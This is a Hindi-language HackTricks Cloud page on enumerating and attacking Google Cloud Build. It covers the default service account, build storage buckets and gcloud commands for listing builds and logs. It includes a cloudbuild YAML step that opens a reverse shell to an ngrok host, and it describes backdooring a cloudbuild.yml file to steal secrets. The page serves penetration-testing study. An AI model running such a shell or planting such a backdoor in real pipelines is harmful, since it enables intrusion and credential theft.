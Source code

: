 # GCP - Cloud Build Enum

<details>

<summary><strong>बढ़िया हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

## मूलभूत जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफ़ॉर्म है जो **सॉफ़्टवेयर निर्माण** और रिलीज प्रक्रियाओं को स्वचालित करता है, **स्रोत कोड रिपॉजिटरी** के साथ एकीकरण करता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपरों को स्वतः सॉफ़्टवेयर निर्माण, परीक्षण और डिप्लॉय करने की अनुमति देता है** जबकि बिल्ड स्टेप और वर्कफ़्लो को अनुकूलित करने की व्यावसायिकता प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित होता है या बाहरी रिपॉजिटरी के साथ सीधे जुड़ा होता है** (Github, Bitbucket या Gitlab).

एक Cloud Build को **बिल्ड क्रियाओं के लिए मंजूरी की आवश्यकता हो सकती है** (डिफ़ॉल्ट रूप से अक्षम).

**सेवा खाता में `cloud-platform` स्कोप होता है**, इसलिए इसका **सभी विशेषाधिकार का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं है** (जैसे कि सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` का **उपयोग किया जाएगा।**

{% hint style="success" %}
मैंने यहां से या क्लाउड रिपॉजिटरी से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रिपॉजिटरी डाउनलोड की जाती है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### संग्रहण

कभी-कभी Cloud Build **ट्रिगर के लिए फ़ाइलों को संग्रहित करने के लिए एक नया संग्रहण उत्पन्न करेगा**। यह उदाहरण के रूप में GCP द्वारा प्रस्तावित उदाहरण में होता है:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक स्टोरेज बकेट [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) बनाया गया है जिसमें एक `.tgz` फ़ाइल संग्रहित की जाती है जो उपयोग के लिए उपयोग की जाने वाली फ़ाइलों को संग्रहित करती है।

### शेल प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### जांच

आप **बिल्ड कॉन्फ़िग्स और लॉग्स में संवेदनशील जानकारी** ढूंढ सकते हैं।
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## विशेषाधिकार उन्नयन

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुँच

### cloudbuild.yml

यदि आपके पास एक ऐसे रेपोजिटरी पर लिखने की पहुँच हो जिसमें एक फ़ाइल है जिसका नाम **`cloudbuild.yml`** है, तो आप इस फ़ाइल को **बैकडोर** कर सकते हैं, जो एक क्लाउड बिल्ड के अंदर निष्पादित होने वाले **कमांड्स को निर्दिष्ट करती है** और रहस्यों को निकाल सकती है, जो किया जाता है और इसके अलावा **क्लाउड बिल्ड सेवा खाता** को भी प्रभावित कर सकती है।

{% hint style="info" %}
ध्यान दें कि GCP में व्यवस्थापकों को बाहरी पीआर से बिल्ड सिस्टम के निष्पादन को नियंत्रित करने की विकल्प होती है "कमेंट नियंत्रण" के माध्यम से। कमेंट नियंत्रण एक ऐसी सुविधा है जहां सहयोगी / परियोजना मालिकों को बिल्ड को ट्रिगर करने के लिए " /gcbrun" टिप्पणी करनी होती है और इस सुविधा का उपयोग करके इंटरनेट पर किसी भी व्यक्ति को आपके बिल्ड सिस्टम को ट्रिगर करने से रोकता है।
{% endhint %}

कुछ संबंधित जानकारी के लिए आप गिटहब एक्शन्स को कैसे हमला करें (इसके समान) के बारे में पेज देख सकते हैं:

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने की सुविधा चाहिए** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फ़ॉलो करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
